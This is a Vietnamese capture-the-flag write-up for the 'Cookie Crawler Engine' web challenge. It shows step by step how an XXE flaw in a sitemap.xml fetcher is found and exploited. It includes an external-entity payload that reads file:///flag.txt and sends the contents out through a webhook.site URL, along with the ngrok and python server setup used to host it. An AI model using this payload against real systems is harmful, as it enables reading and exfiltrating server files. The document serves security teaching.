





# XXE

**Tên challenge:** Cookie Crawler Engine

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/cookie-crawler-engine)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Cookie Crawler Engine allows users to input a URL sitemap.xml . If found, the application extracts all entries from the sitemap, retrieves each <loc> (location) within those entries, and sends HTTP requests to each URL.

Flag Location: `/flag.txt`
Flag Format: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, khi truy cập vào Website thì chỉ có 1 dòng text như sau:
```
You have to provide a sitemap.xml URL. /?sitemap_url=http://example.com/sitemap.xml
```
Như đề bài Challenge đã đề cập, chức năng của trang Web sẽ lấy input đến file `sitemap.xml` mà mình cung cấp rồi nó sẽ tìm ra những **URL** nằm bên trong các tag `<loc>` rồi gửi gói tin đến các **URL** đó.

Ok, vậy bây giờ ta sẽ thử tạo 1 file `sitemap.xml` có nội dung như sau:
```
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
<url>
<loc>https://webhook.site/XXXXXX</loc>
<lastmod>2024-12-11</lastmod>
<changefreq>daily</changefreq>
<priority>1.0</priority>
</url>
</urlset>
```
Để kiểm tra xem, liệu ứng dụng Web có gửi gói tin đến Webhook của ta không.

<u>**Lưu ý:**</u> Nhớ chỉnh sửa lại đường dẫn Webhook trong tag <loc> thành link Webhook của bạn.

**B2:** Ta tiến hành dùng `ngrok` và `python` để mở 1 Website có chứa file `sitemap.xml` mà ta vừa tạo ở trên.
```
$> ls
sitemap.xml

$> python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Kế đến, ta dùng lệnh `ngrok` để mở 1 **URL** có tác dụng forwarding vào port localhost 80 của ta mỗi khi có request đến **URL** public ngrok.
```
$> ngrok http 80
ngrok                                                                                                   (Ctrl+C to quit)                                                                                                                        🔀 Route traffic by anything: https://ngrok.com/r/iep

Session Status                online
Account                       Email@gmail.com (Plan: Free)
Version                       3.18.4
Region                        Asia Pacific (ap)
Latency                       147ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://1ffe-14-191-63-84.ngrok-free.app -> http://localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    0.00    0.40                                                                                                                                                                      HTTP Requests
-------------  
```

Ta thử truy cập vào đường link: `https://1ffe-14-191-63-84.ngrok-free.app/sitemap.xml` để xem nó có hoạt động không.



Vậy là ta đã thành công tạo 1 đường link URL đến `sitemap.xml`.

**B3:** Ta gửi link này lên trên Website.


Không có gì được trả về, nhưng khi ta check lại Webhook thì ta thấy có 1 gói tin được gửi đến.



=> Vậy là đường dẫn đến `sitemap.xml` của ta đã thành công.

Tiếp đến, ta thử khai thác `XXE` bằng thay đổi nội dung file `sitemap.xml` như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url>
    <loc>https://webhook.site/XXXX/?test=&example;</loc>
    <lastmod>2024-12-11</lastmod>
    <changefreq>daily</changefreq>
    <priority>1.0</priority>
  </url>
</urlset>
```
**B4:** Ta tiến hành gửi lại link URL `sitemap.xml` đến Server



Xem ra Website vẫn thực thi đoạn code Internal Entity của ta rồi gán nó vào URL Webhook và gửi đi.

**B5:** Ta tiếp tục thay đổi nội dung file `sitemap.xml` để thử đọc nội dung file `flag.txt` như sau:
```
 GNU nano 7.2                                           sitemap.xml                                                    <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///flag.txt"> ]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url>
    <loc>https://webhook.site/XXXX/?test=&example;</loc>
    <lastmod>2024-12-11</lastmod>
    <changefreq>daily</changefreq>
    <priority>1.0</priority>
  </url>
</urlset>
```

**B6:** Ta tiến hành gửi lên Server 1 lần nữa:



=> Vậy là ta đã thành công đọc được `Flag`.
